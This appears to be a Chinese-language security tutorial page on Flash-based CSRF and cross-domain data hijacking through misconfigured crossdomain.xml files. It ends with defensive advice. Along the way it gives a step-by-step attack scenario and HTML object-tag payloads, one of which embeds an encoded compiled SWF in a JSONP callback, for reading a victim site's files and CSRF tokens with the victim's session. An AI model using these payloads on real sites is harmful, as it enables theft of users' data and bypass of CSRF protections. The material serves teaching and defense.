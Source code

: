 ## 0x01 简单介绍
CSRF的全称是Cross-Site Request Forgery，跨站请求伪造，即第三方冒充当前用户身份发送请求。
Flash CSRF通常是由于Crossdomain.xml文件配置不当造成的，利用方法是使用swf来发起跨站请求伪造，示例请参照[CSRF](../跨站请求伪造/CSRF.md)

## 0x02  flash的跨域策略
adobe为了限制flash加载任意页面，使用了一种跨域策略来进行限制。
所谓的flash跨域策略文件就是在站点根目录的crossdomain.xml，这个XML文件配置当前站点的资源允许来自哪些域的flash加载。当flash加载一个站点的资源时，如果目标不跟自己一个站点，flash就会自动去访问目标站点根目录下的crossdomain.xml文件，如果crossdomain.xml中的allow-access-from domain标签包含flash所在网站，那么flash就可以加载该内容。
一个crossdomain.xml文件可能是这样的：
``` xml
<?xml version="1.0"?>
<cross-domain-policy>
<allow-access-from domain="*.example.com" />
<allow-access-from domain="www.test.com" secure="true" />
</cross-domain-policy>
```
以上策略就是允许来自*.example.com、www.test.com 的flash加载资源。secure="true" 的意思是只允许通过安全链接来请求本域的数据。在站点不存在crossdomain.xml文件的情况，允许flash主动加载目标站点的其他XML文件作为跨域策略文件。比如，flash9中可以使用Security.loadPolicyFile加载目标站点的其他文件作为跨域策略文件。如果没有跨域策略文件许可，那么flash就不能加载该站点的内容。

## 0x03  如何绕过跨域限制
我们要进行CSRF，可能需要获取目标站点某些页面中的内容，这个时候就得想办法绕过flash的跨域策略。
* 最简单的情况是目标站点本身没有安全意识，允许任意flash加载内容那就没话说了（allow-access-from domain="*"）。
* 还有就是目标站点根目录没有crossdomain.xml，那就看看能否找到上传文件的地方传一个同样格式的文件上去，然后用Security.loadPolicyFile加载之。这里貌似flash有通过Content-Type来判断，所以要文本类型的才有效。
* 在目标站点没有crossdomain.xml 情况下，在目标站点上传一个swf（文件后缀不重要），在 evil站点以 object 标签加载，这样swf 发出的请求其实是目标站点的同域请求，可以读取返回的数据。

>  If a Flash file (bogus image file) is uploaded on victim.com and then embedded at attacker.com, the Flash file can execute JavaScript within the domain of attacker.com. However, if the Flash file sends requests, it will be allowed to read files within the domain of victim.com.

> A SWF’s origin is the domain from which it was retrieved from, similar to a Java applet (uses IP addresses instead of domain names though), therefore a malicious page could embed a SWF, which originates from the target’s domain that could make arbitrary requests to the target domain and read the responses (steal sensitive data, defeat CSRF protections, and other generally nasty actions).

Based on these facts we can create an attack scenario like this:
``` 
An attacker creates a malicious Flash (SWF) file
The attacker changes the file extension to JPG
The attacker uploads the file to victim.com
The attacker embeds the file on attacker.com using an <object> tag with type "application/x-shockwave-flash"
The victim visits attacker.com, loads the file as embedded with the <object> tag
The attacker can now send and receive arbitrary requests to victim.com using the victims session
The attacker sends a request to victim.com and extracts the CSRF token from the response
```
A payload could look like this:
``` html
<object style="height:1px;width:1px;" data="http://victim.com/user/2292/profilepicture.jpg" 
type="application/x-shockwave-flash" allowscriptaccess="always" flashvars="c=read&u=http://victim.com/
secret_file.txt"></object>
```
假如目标站点也找不到上传文件的地方，如果存在 jsonp 接口，也是可以直接利用的，我们把编译好的swf 代码当作callback 的参数，如下
``` html
<object style="height:1px;width:1px;" data="http://viticm.com/user/get?type=jsonp&callback=
CWS%07%0E000x%9C%3D%8D1N%C3%40%10E%DF%AE%8D%BDI%08%29%D3%40%1D%A0%A2%05%09%11%89HiP%22%05D%8BF%8E%0BG%26%1B%D9%8E%
117%A0%A2%DC%82%8A%1Br%04X%3B%21S%8C%FE%CC%9B%F9%FF%AA%CB7Jq%AF%7F%ED%F2%2E%F8%01%3E%9E%18p%C9c%9Al
%8B%ACzG%F2%DC%BEM%EC%ABdkj%1E%AC%2C%9F%A5%28%B1%EB%89T%C2Jj%29%93%22%DBT7%24%9C%8FH%CBD6%29%A3%0Bx%29
%AC%AD%D8%92%FB%1F%5C%07C%AC%7C%80Q%A7Nc%F4b%E8%FA%98%20b%5F%26%1C%9F5%20h%F1%D1g%0F%14%C1%0A%5Ds%8D%8B0Q
%A8L%3C%9B6%D4L%BD%5F%A8w%7E%9D%5B%17%F3%2F%5B%DCm%7B%EF%CB%EF%E6%8D%3An%2D%FB%B3%C3%DD%2E%E3d1d%EC%C7%3F6
%CD0%09" type="application/x-shockwave-flash" allowscriptaccess="always" 
flashvars="c=alert&u=http://mywebsite.example.com/secret_file.txt"></object>
```

* 最后一种情况是有crossdomain.xml，而且配置得很好。这个时候就要稍微麻烦一点，那我们就去找它支持flash加载的站点是否可以上传文件，上传我们精心构造的flash就好了。后缀倒无所谓：如果是以object标签调用flash的话任意后缀就可以；以embed调用的话除了jpg、jpeg、gif等少数后缀不支持外其他都可以。也就是说在一个中间站点上传文件，evil 站点加载中间站点的swf，swf 去请求目标站点的内容，因为swf 与中间站点同域，而这个域在 crossdomain.xml 允许的范围内，故可以成功。

## 0x04  如何防御
* Web程序中可以通过请求的来源进行判断：通过正常页面过来的referer我们已知的，flash过来的请求referer为空或者是swf文件地址。另外，flash发送请求的时候也会在HTTP头中带上x-flash-version标识版本。  
* So if you allow file uploads or printing arbitrary user data in your service, you should always verify the contents as well as sending a Content-Disposition header where applicable. e.g  
`Content-Disposition: attachment; filename="image.jpg"`  
Isolating the domain of the uploaded files is also a good solution as long as the crossdomain.xml file of the main website does not include the isolated domain.  
* 站点根目录的crossdomain.xml文件要配置好，尽量精确到子域，缩小被攻击面。

## Reference
[the-lesser-known-pitfalls-of-allowing-file-uploads-on-your-website](https://labs.detectify.com/2014/05/20/the-lesser-known-pitfalls-of-allowing-file-uploads-on-your-website/)  
[Even uploading a JPG file can lead to Cross Domain Data Hijacking](https://soroush.secproject.com/blog/2014/05/even-uploading-a-jpg-file-can-lead-to-cross-domain-data-hijacking-client-side-attack/)  
[Content-Type Blues](http://d3adend.org/blog/?p=242)  
[CrossSiteContentHijacking](https://github.com/nccgroup/CrossSiteContentHijacking)  

